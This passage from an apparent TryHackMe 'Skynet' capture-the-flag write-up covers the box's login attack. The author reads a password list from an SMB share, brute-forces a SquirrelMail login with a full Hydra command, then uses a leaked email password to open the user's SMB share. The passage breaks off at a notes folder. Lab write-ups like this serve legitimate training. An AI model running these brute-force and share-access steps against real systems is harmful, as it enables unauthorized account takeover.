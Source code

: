 ```sh

smb: \> cd logs\
smb: \logs\> ls
  .                                   D        0  Wed Sep 18 00:42:16 2019
  ..                                  D        0  Thu Nov 26 11:04:00 2020
  log2.txt                            N        0  Wed Sep 18 00:42:13 2019
  log1.txt                            N      471  Wed Sep 18 00:41:59 2019
  log3.txt 
  ```
`attention.txt` had this inside:

```
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

`log1.txt` had a list of password, you got it right!!!! Brute forcing time:

Fire up burpsuite to grabe the request:

```
login_username=test&secretkey=test&js_autodetect_results=1&just_logged_in=1
```

Now let's Hydra:

```sh
┌──(bvr0n㉿fsociety)-[~/ctf/thm/skynet]
└─$ hydra -l ** 10.10.46.34 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:Unknown user or password incorrect" -P log1.txt 

[DATA] attacking http-post-form://10.10.46.34:80/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:Unknown user or password incorrect
[80][http-post-form] host: 10.10.46.34   login: milesdyson   password: **
```

And we have now a password, let's login and check his email.

After we login, we see an email with this inside:

```
We have changed your smb password after system malfunction.
Password: **
```

Now let's check that `milesdyson` SMB share:

```sh
┌──(bvr0n㉿fsociety)-[~/ctf/thm/skynet]
└─$ smbclient -U "**" //10.10.46.34/milesdyson
Enter WORKGROUP\milesdyson's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Sep 17 05:05:47 2019
  ..                                  D        0  Tue Sep 17 23:51:03 2019
  Improving Deep Neural Networks.pdf      N  5743095  Tue Sep 17 05:05:14 2019
  Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 05:05:14 2019
  Convolutional Neural Networks-CNN.pdf      N 19655446  Tue Sep 17 05:05:14 2019
  notes                               D        0  Tue Sep 17 05:18:40 2019
  Neural Networks and Deep Learning.pdf      N  4304586  Tue Sep 17 05:05:14 2019
  Structuring your Machine Learning Project.pdf      N  3531427  Tue Sep 17 05:05:14 2019

                9204224 blocks of size 1024. 5831036 blocks available
smb: \> cd notes/
```
Inside the `notes/` directory, there is a file named `important.txt`:

